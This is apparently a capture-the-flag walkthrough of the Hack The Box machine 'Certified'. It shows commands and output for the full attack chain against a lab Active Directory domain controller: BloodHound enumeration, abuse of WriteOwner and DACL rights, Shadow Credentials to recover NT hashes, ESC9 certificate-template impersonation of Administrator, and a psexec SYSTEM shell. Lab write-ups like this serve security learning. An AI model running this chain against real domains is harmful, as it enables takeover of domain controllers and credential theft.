

A Windows box with a medium difficulty level, created by Certified ruycr4ft.At the beginning, we'll use the provided credentials to abuse some ACLs,then we'll leverage the Shadow Credentials method,and finally, we'll exploit the ESC9 vulnerability.


As usual, we start with an Nmap scan.

```zsh
➜  certified nmap -p- --min-rate 10000 -oN port.txt 10.129.123.180
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-26 18:16 +04
Nmap scan report for certified.htb (10.129.123.180)
Host is up (0.14s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49666/tcp open  unknown
49679/tcp open  unknown
49682/tcp open  unknown
49685/tcp open  unknown
49714/tcp open  unknown
49724/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 40.92 seconds
```

Kerberos, DNS, and LDAP ports are open, which likely means we're dealing with a Domain Controller.
We use NetExec to test the provided credentials and gather some initial information about the machine.


```zsh
➜  certified netexec smb certified.htb -u judith.mader -p judith09
SMB         10.129.123.180  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.129.123.180  445    DC01             [+] certified.htb\judith.mader:judith09
```

We retrieved information about the machine name, domain name, and SMB.
Since the credentials are valid, I’ll go ahead and use BloodHound right away.


```zsh
➜  certified bloodhound-python -d certified.htb -u judith.mader -p judith09 -ns 10.129.123.180 -c all --zip
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: certified.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc01.certified.htb:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc01.certified.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.certified.htb
INFO: Found 10 users
INFO: Found 53 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.certified.htb
INFO: Done in 00M 16S
INFO: Compressing output into 20250626181837_bloodhound.zip
```


<figure><figcaption></figcaption></figure>


As seen in the BloodHound results, we have a permission chain available.
Let’s take a look at how we can exploit it step by step.


First, we will exploit the WriteOwner permission.
This means we can change the owner of the Management group.

```zsh
➜  certified impacket-owneredit -action write -new-owner 'judith.mader' -target 'Management' 'certified.htb'/'judith.mader':'judith09'
/usr/share/doc/python3-impacket/examples/owneredit.py:87: SyntaxWarning: invalid escape sequence '\V'
  'S-1-5-83-0': 'NT VIRTUAL MACHINE\Virtual Machines',
/usr/share/doc/python3-impacket/examples/owneredit.py:96: SyntaxWarning: invalid escape sequence '\P'
  'S-1-5-32-554': 'BUILTIN\Pre-Windows 2000 Compatible Access',
/usr/share/doc/python3-impacket/examples/owneredit.py:97: SyntaxWarning: invalid escape sequence '\R'
  'S-1-5-32-555': 'BUILTIN\Remote Desktop Users',
/usr/share/doc/python3-impacket/examples/owneredit.py:98: SyntaxWarning: invalid escape sequence '\I'
  'S-1-5-32-557': 'BUILTIN\Incoming Forest Trust Builders',
/usr/share/doc/python3-impacket/examples/owneredit.py:100: SyntaxWarning: invalid escape sequence '\P'
  'S-1-5-32-558': 'BUILTIN\Performance Monitor Users',
/usr/share/doc/python3-impacket/examples/owneredit.py:101: SyntaxWarning: invalid escape sequence '\P'
  'S-1-5-32-559': 'BUILTIN\Performance Log Users',
/usr/share/doc/python3-impacket/examples/owneredit.py:102: SyntaxWarning: invalid escape sequence '\W'
  'S-1-5-32-560': 'BUILTIN\Windows Authorization Access Group',
/usr/share/doc/python3-impacket/examples/owneredit.py:103: SyntaxWarning: invalid escape sequence '\T'
  'S-1-5-32-561': 'BUILTIN\Terminal Server License Servers',
/usr/share/doc/python3-impacket/examples/owneredit.py:104: SyntaxWarning: invalid escape sequence '\D'
  'S-1-5-32-562': 'BUILTIN\Distributed COM Users',
/usr/share/doc/python3-impacket/examples/owneredit.py:105: SyntaxWarning: invalid escape sequence '\C'
  'S-1-5-32-569': 'BUILTIN\Cryptographic Operators',
/usr/share/doc/python3-impacket/examples/owneredit.py:106: SyntaxWarning: invalid escape sequence '\E'
  'S-1-5-32-573': 'BUILTIN\Event Log Readers',
/usr/share/doc/python3-impacket/examples/owneredit.py:107: SyntaxWarning: invalid escape sequence '\C'
  'S-1-5-32-574': 'BUILTIN\Certificate Service DCOM Access',
/usr/share/doc/python3-impacket/examples/owneredit.py:108: SyntaxWarning: invalid escape sequence '\R'
  'S-1-5-32-575': 'BUILTIN\RDS Remote Access Servers',
/usr/share/doc/python3-impacket/examples/owneredit.py:109: SyntaxWarning: invalid escape sequence '\R'
  'S-1-5-32-576': 'BUILTIN\RDS Endpoint Servers',
/usr/share/doc/python3-impacket/examples/owneredit.py:110: SyntaxWarning: invalid escape sequence '\R'
  'S-1-5-32-577': 'BUILTIN\RDS Management Servers',
/usr/share/doc/python3-impacket/examples/owneredit.py:111: SyntaxWarning: invalid escape sequence '\H'
  'S-1-5-32-578': 'BUILTIN\Hyper-V Administrators',
/usr/share/doc/python3-impacket/examples/owneredit.py:112: SyntaxWarning: invalid escape sequence '\A'
  'S-1-5-32-579': 'BUILTIN\Access Control Assistance Operators',
/usr/share/doc/python3-impacket/examples/owneredit.py:113: SyntaxWarning: invalid escape sequence '\R'
  'S-1-5-32-580': 'BUILTIN\Remote Management Users',
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Current owner information below
[*] - SID: S-1-5-21-729746778-2675978091-3820388244-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=certified,DC=htb
[*] OwnerSid modified successfully!
```


After becoming the owner of the group, we use DACLedit to grant ourselves permissions over the group.


```zsh
➜  certified impacket-dacledit  -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' 'certified.htb'/'judith.mader':'judith09' -dc-ip 10.129.123.180
/usr/share/doc/python3-impacket/examples/dacledit.py:101: SyntaxWarning: invalid escape sequence '\V'
  'S-1-5-83-0': 'NT VIRTUAL MACHINE\Virtual Machines',
/usr/share/doc/python3-impacket/examples/dacledit.py:110: SyntaxWarning: invalid escape sequence '\P'
  'S-1-5-32-554': 'BUILTIN\Pre-Windows 2000 Compatible Access',
/usr/share/doc/python3-impacket/examples/dacledit.py:111: SyntaxWarning: invalid escape sequence '\R'
  'S-1-5-32-555': 'BUILTIN\Remote Desktop Users',
/usr/share/doc/python3-impacket/examples/dacledit.py:112: SyntaxWarning: invalid escape sequence '\I'
  'S-1-5-32-557': 'BUILTIN\Incoming Forest Trust Builders',
/usr/share/doc/python3-impacket/examples/dacledit.py:114: SyntaxWarning: invalid escape sequence '\P'
  'S-1-5-32-558': 'BUILTIN\Performance Monitor Users',
/usr/share/doc/python3-impacket/examples/dacledit.py:115: SyntaxWarning: invalid escape sequence '\P'
  'S-1-5-32-559': 'BUILTIN\Performance Log Users',
/usr/share/doc/python3-impacket/examples/dacledit.py:116: SyntaxWarning: invalid escape sequence '\W'
  'S-1-5-32-560': 'BUILTIN\Windows Authorization Access Group',
/usr/share/doc/python3-impacket/examples/dacledit.py:117: SyntaxWarning: invalid escape sequence '\T'
  'S-1-5-32-561': 'BUILTIN\Terminal Server License Servers',
/usr/share/doc/python3-impacket/examples/dacledit.py:118: SyntaxWarning: invalid escape sequence '\D'
  'S-1-5-32-562': 'BUILTIN\Distributed COM Users',
/usr/share/doc/python3-impacket/examples/dacledit.py:119: SyntaxWarning: invalid escape sequence '\C'
  'S-1-5-32-569': 'BUILTIN\Cryptographic Operators',
/usr/share/doc/python3-impacket/examples/dacledit.py:120: SyntaxWarning: invalid escape sequence '\E'
  'S-1-5-32-573': 'BUILTIN\Event Log Readers',
/usr/share/doc/python3-impacket/examples/dacledit.py:121: SyntaxWarning: invalid escape sequence '\C'
  'S-1-5-32-574': 'BUILTIN\Certificate Service DCOM Access',
/usr/share/doc/python3-impacket/examples/dacledit.py:122: SyntaxWarning: invalid escape sequence '\R'
  'S-1-5-32-575': 'BUILTIN\RDS Remote Access Servers',
/usr/share/doc/python3-impacket/examples/dacledit.py:123: SyntaxWarning: invalid escape sequence '\R'
  'S-1-5-32-576': 'BUILTIN\RDS Endpoint Servers',
/usr/share/doc/python3-impacket/examples/dacledit.py:124: SyntaxWarning: invalid escape sequence '\R'
  'S-1-5-32-577': 'BUILTIN\RDS Management Servers',
/usr/share/doc/python3-impacket/examples/dacledit.py:125: SyntaxWarning: invalid escape sequence '\H'
  'S-1-5-32-578': 'BUILTIN\Hyper-V Administrators',
/usr/share/doc/python3-impacket/examples/dacledit.py:126: SyntaxWarning: invalid escape sequence '\A'
  'S-1-5-32-579': 'BUILTIN\Access Control Assistance Operators',
/usr/share/doc/python3-impacket/examples/dacledit.py:127: SyntaxWarning: invalid escape sequence '\R'
  'S-1-5-32-580': 'BUILTIN\Remote Management Users',
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] DACL backed up to dacledit-20250626-184713.bak
[*] DACL modified successfully!
```


Then, we simply use net rpc to add ourselves to the group.

```zsh
➜  certified net rpc group addmem "Management" "judith.mader" -U "certified.htb"/"judith.mader"%"judith09" -S "dc01.certified.htb"
```


We are now a member of the group.
Next, we have GenericWrite permission over the management_svc user.

There are two possible ways to proceed:
One is using Targeted Kerberoasting, and the other is the Shadow Credentials method.

If we choose Targeted Kerberoasting, we have to assume that we can crack the target user's hash—otherwise, this method won’t work.
That’s why we’ll go with the Shadow Credentials method instead.

This technique is effective only if ADCS is present in the environment.
It’s also a quieter and safer approach.


Using the PyWhisker tool, we grant the user certificate-based authentication rights.


```zsh
(env) ➜  pywhisker git:(main) ✗ python3 pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add"
[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 3b8bcf5b-19e1-201e-e097-b1e0be9c4974
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: 4ifNuAdJ.pfx
[+] PFX exportiert nach: 4ifNuAdJ.pfx
[i] Passwort für PFX: lNAnzIi8UdskseVXvoMB
[+] Saved PFX (#PKCS12) certificate & key at path: 4ifNuAdJ.pfx
[*] Must be used with password: lNAnzIi8UdskseVXvoMB
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

After that, we obtain a TGT ticket using the provided PFX file and its password.


```zsh
(env) ➜  pywhisker git:(main) ✗ python3 /home/user/tools/PKINITtools/gettgtpkinit.py -pfx-pass "lNAnzIi8UdskseVXvoMB" -cert-pfx 4ifNuAdJ.pfx -dc-ip 10.129.231.186 certified.htb/management_svc management_svc.ccache
2025-06-28 10:03:33,810 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-06-28 10:03:33,852 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-06-28 03:03:39,164 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-06-28 03:03:39,165 minikerberos INFO     a5fc7d9bf7f53f0ababfe9baa474b13a300d2cdbe25e39cc29f9901d297c4943
INFO:minikerberos:a5fc7d9bf7f53f0ababfe9baa474b13a300d2cdbe25e39cc29f9901d297c4943
2025-06-28 03:03:39,175 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```


```zsh
(env) ➜  pywhisker git:(main) ✗ export KRB5CCNAME=management_svc.ccache
```

After exporting the ticket, we can use getnthash to retrieve the hash of the management user.


```zsh
(env) ➜  pywhisker git:(main) ✗ python3 /home/user/tools/PKINITtools/getnthash.py -key a5fc7d9bf7f53f0ababfe9baa474b13a300d2cdbe25e39cc29f9901d297c4943  -dc-ip 10.129.231.186 certified.htb/management_svc
/home/user/tools/pywhisker/pywhisker/env/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
{HASH_REDACTED}
```

Now we have compromised the management_svc user.
This user also has GenericAll privileges over the ca_operator user.

We could simply perform a force password change,
but we’ll use the Shadow Credentials method instead — a much quieter approach. :)


```zsh
(env) ➜  pywhisker git:(main) ✗ python3 pywhisker.py -d "certified.htb" -u "management_svc" -H "{HASH_REDACTED}" --target "ca_operator" --action "add"

[*] Searching for the target account
[*] Target user found: CN=operator ca,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 9fc15b24-bc3d-641c-3b55-e7d1c6fb94bb
[*] Updating the msDS-KeyCredentialLink attribute of ca_operator
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] Converting PEM -> PFX with cryptography: 4iX4wFth.pfx
[+] PFX exportiert nach: 4iX4wFth.pfx
[i] Passwort für PFX: KmTn7nFDlgfjPOydpUpc
[+] Saved PFX (#PKCS12) certificate & key at path: 4iX4wFth.pfx
[*] Must be used with password: KmTn7nFDlgfjPOydpUpc
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```


```zsh
(env) ➜  pywhisker git:(main) ✗ python3 /home/user/tools/PKINITtools/gettgtpkinit.py -pfx-pass "KmTn7nFDlgfjPOydpUpc"   -cert-pfx 4iX4wFth.pfx -dc-ip 10.129.231.186 certified.htb/ca_operator ca_operator.ccache
2025-06-28 10:09:28,945 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-06-28 10:09:28,982 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-06-28 10:09:33,377 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-06-28 10:09:33,378 minikerberos INFO     c772466b9395fc95dbb4790d6b6e0ef533556d7fe96f07dbb5919e6b1ffa99ac
INFO:minikerberos:c772466b9395fc95dbb4790d6b6e0ef533556d7fe96f07dbb5919e6b1ffa99ac
2025-06-28 10:09:33,386 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```


```zsh
(env) ➜  pywhisker git:(main) ✗ export KRB5CCNAME=ca_operator.ccache
```

```zsh
(env) ➜  pywhisker git:(main) ✗ python3 /home/user/tools/PKINITtools/getnthash.py -key c772466b9395fc95dbb4790d6b6e0ef533556d7fe96f07dbb5919e6b1ffa99ac -dc-ip 10.129.231.186 certified.htb/ca_operator
/home/user/tools/pywhisker/pywhisker/env/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
{HASH_REDACTED}
```


After compromising ca_operator, let’s use Certipy to list the vulnerable certificates.

```zsh
(env) ➜  pywhisker git:(main) ✗ certipy-ad find -u 'ca_operator' -hashes :{HASH_REDACTED} -dc-ip 10.129.231.186 -dns-tcp -ns 10.129.231.186 -stdout -vulnerable

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'certified-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'certified-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'certified-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'certified-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : certified-DC01-CA
    DNS Name                            : DC01.certified.htb
    Certificate Subject                 : CN=certified-DC01-CA, DC=certified, DC=htb
    Certificate Serial Number           : 36472F2C180FBB9B4983AD4D60CD5A9D
    Certificate Validity Start          : 2024-05-13 15:33:41+00:00
    Certificate Validity End            : 2124-05-13 15:43:41+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : CERTIFIED.HTB\Administrators
      Access Rights
        ManageCertificates              : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        ManageCa                        : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Enroll                          : CERTIFIED.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CertifiedAuthentication
    Display Name                        : Certified Authentication
    Certificate Authorities             : certified-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDirectoryPath
                                          SubjectAltRequireUpn
    Enrollment Flag                     : NoSecurityExtension
                                          AutoEnrollment
                                          PublishToDs
    Private Key Flag                    : 16842752
    Extended Key Usage                  : Server Authentication
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CERTIFIED.HTB\operator ca
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : CERTIFIED.HTB\Administrator
        Write Owner Principals          : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
        Write Dacl Principals           : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
        Write Property Principals       : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
    [!] Vulnerabilities
      ESC9                              : 'CERTIFIED.HTB\\operator ca' can enroll and template has no security extension
```

As you can see, there is an ESC9 vulnerability.
If you'd like to read more about this vulnerability, you can visit [this](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc9-no-security-extension-on-certificate-template) link.


Let’s briefly explain this vulnerability:
The fact that the ca_operator user has a certificate template vulnerable to ESC9 means that the CA only checks the UPN (User Principal Name) in certificate requests.

Since we have GenericAll privileges over ca_operator as management_svc,
we can change its UPN to administrator and authenticate as an administrator.

First, let’s change the UPN.

```zsh
(env) ➜  pywhisker git:(main) ✗ certipy-ad account update -username "management_svc@certified.htb" -hashes :{HASH_REDACTED}  -user ca_operator -upn Administrator -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'CERTIFIED.HTB' at '192.168.1.1'
[+] Resolved 'CERTIFIED.HTB' from cache: 10.129.231.186
[+] Authenticating to LDAP server
[+] Bound to ldaps://10.129.231.186:636 - ssl
[+] Default path: DC=certified,DC=htb
[+] Configuration path: CN=Configuration,DC=certified,DC=htb
[*] Updating user 'ca_operator':
    userPrincipalName                   : Administrator
[*] Successfully updated 'ca_operator'
```

Submit the certificate request.

```zsh
(env) ➜  pywhisker git:(main) ✗ certipy-ad req -username 'ca_operator@certified.htb' -hashes :{HASH_REDACTED} -target 'DC01.certified.htb' -ca 'certified-DC01-CA' -template CertifiedAuthentication -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'DC01.certified.htb' at '192.168.1.1'
[+] Trying to resolve 'CERTIFIED.HTB' at '192.168.1.1'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.129.231.186[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.129.231.186[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 6
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```


Revert ca_operator’s UPN back to its original value.

```zsh
(env) ➜  pywhisker git:(main) ✗ certipy-ad account update -u management_svc -hashes :{HASH_REDACTED} -user ca_operator -upn ca_operator@certified.htb -dc-ip 10.129.231.186
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator@certified.htb
[*] Successfully updated 'ca_operator'
```

Finally, let’s authenticate.

```zsh
(env) ➜  pywhisker git:(main) ✗ certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.231.186 -domain certified.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:{HASH_REDACTED}
```

And then, connect to the system using PsExec.


```zsh
(env) ➜  pywhisker git:(main) ✗ impacket-psexec certified.htb/administrator@dc01.certified.htb -hashes :{HASH_REDACTED}
/home/user/tools/pywhisker/pywhisker/env/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Requesting shares on dc01.certified.htb.....
[*] Found writable share ADMIN$
[*] Uploading file DSeNIjSt.exe
[*] Opening SVCManager on dc01.certified.htb.....
[*] Creating service jmBY on dc01.certified.htb.....
[*] Starting service jmBY.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.6414]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

That's it!